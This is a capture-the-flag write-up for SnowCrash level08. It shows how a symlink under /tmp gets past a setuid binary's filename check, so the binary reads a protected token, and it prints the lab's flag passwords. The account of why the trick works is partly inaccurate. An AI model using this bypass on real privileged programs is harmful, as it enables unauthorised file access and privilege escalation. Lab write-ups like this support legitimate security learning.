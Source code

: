 # level08

## Hint

There are two files at the root of our home:

```shell-session
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

`level08` is a binary that reads as follows when we launch it:

```shell-session
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

But launching it on our token file does nothing for us:

```shell-session
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Our goal is therefor to find a way to read the contents of the token file.

## symlink

To do that we should feed to the executable a path that will be resolved to the file we are trying to access.

```shell-session
level08@SnowCrash:~$ cd /tmp
level08@SnowCrash:/tmp$ ln -s ../home/user/level08/token getflag
level08@SnowCrash:~$ ./level08 /tmp/getflag
quif5eloekouj29ke0vouxean
```

Meaning:
When the shell evaluates `/tmp/getflag` the executable receives `../home/user/level08/token`.

```shell-session
level08@SnowCrash:~$ ls -l /tmp/getflag
lrwxrwxrwx 1 level08 level08 26 May  6 11:32 /tmp/getflag -> ../home/user/level08/token
```

# getflag

```shell-session
 λ Securite/snowcrash42/level08 ssh flag08@192.168.152.166 -p 4242            main :: 23h :: ⬡
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.152.166 2a01:cb06:802f:11c0:69b1:d2eb:a6ed:facd 2a01:cb06:802f:11c0:a00:27ff:fef7:2e52
flag08@192.168.152.166's password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
